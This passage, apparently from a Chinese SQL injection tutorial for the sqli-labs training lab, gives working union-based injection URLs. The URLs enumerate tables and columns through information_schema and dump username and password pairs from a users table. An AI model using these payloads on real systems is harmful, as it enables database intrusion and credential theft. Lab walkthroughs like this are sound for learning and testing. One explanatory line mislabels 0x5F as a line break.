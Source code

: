 ```
http://192.168.1.76/sqli-labs/Less-1/?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database() --+
```

> 其中 `table_name` 中有很多字段，需要用 `group_concat（）` 组合到一起查看

或者将语句整合（推荐）

```
http://192.168.1.76/sqli-labs/Less-1/?id=-1' union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema=database()) --+
```

又或者不用 `group_concat` ，使用 `limit` 分次显示

```
http://192.168.1.76/sqli-labs/Less-1/?id=-1' union select 1,2,(select table_name from information_schema.tables where table_schema=database() limit 0,1) --+
```

得到数据表：emails,referers,uagents,users

### 8.4 爆字段

显示 `users` 数据表中的所有字段

```
http://192.168.1.76/sqli-labs/Less-1/?id=-1' union select 1,2,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users') --+
```

### 8.5 拖库

显示 `users` 数据表中的所有数据

```
http://192.168.1.76/sqli-labs/Less-1/?id=-1' union select 1,2,(select group_concat(username,'_',password) from users) --+
```

> 其中 `_` 为添加的分隔符，可以替换成任意字符

若数据很多可用 `limit` 分次显示

```
http://192.168.1.76/sqli-labs/Less-1/?id=-1' union select 1,2,group_concat(username,'--',password) from (select username,password from users limit 0,1)a --+
```

> 此时必须设置临时数据表别名 `a`

也可以使用换行显示多条数据

```
http://192.168.1.76/sqli-labs/Less-1/?id=-1' union select 1,2,group_concat(username,0x5F,password,0x3C,0x68,0x72,0x2F,0x3E) from (select username,password from users limit 0,4)a --+
```

> `0x5F` 为下划线的换行符
>
> `0x3C,0x68,0x72,0x2F,0x3E` 为换行符的 ascii 码
